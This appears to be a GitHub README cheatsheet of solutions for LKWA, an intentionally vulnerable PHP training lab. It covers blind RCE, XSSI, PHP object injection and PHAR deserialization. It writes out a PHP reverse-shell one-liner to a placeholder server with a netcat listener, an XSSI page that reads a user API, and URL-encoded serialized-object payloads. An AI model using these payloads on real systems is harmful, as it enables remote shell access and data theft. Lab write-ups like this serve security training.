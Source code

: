 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

<img src="https://github.com/fujiokayu/lkwa-cheatsheet/blob/master/evidence/0x02.png" width="200">

## 0x03 – PHP Object Injection

skip.  
I coudn't upload a shell.

## 0x04 – PHP Object Injection(cookie)

change cookie and inject php object as follow:  
O%3A3%3A%22Foo%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%0D%0A

## 0x05 – PHP Object Injection(Object Reference)

change request parameter input as follow:
O%3A7%3A%22Object1%22%3A2%3A%7Bs%3A5%3A%22guess%22%3BN%3Bs%3A10%3A%22secretCode%22%3BR%3A2%3B%7D%0D%0A

## 0x06 – PHAR Deserialization
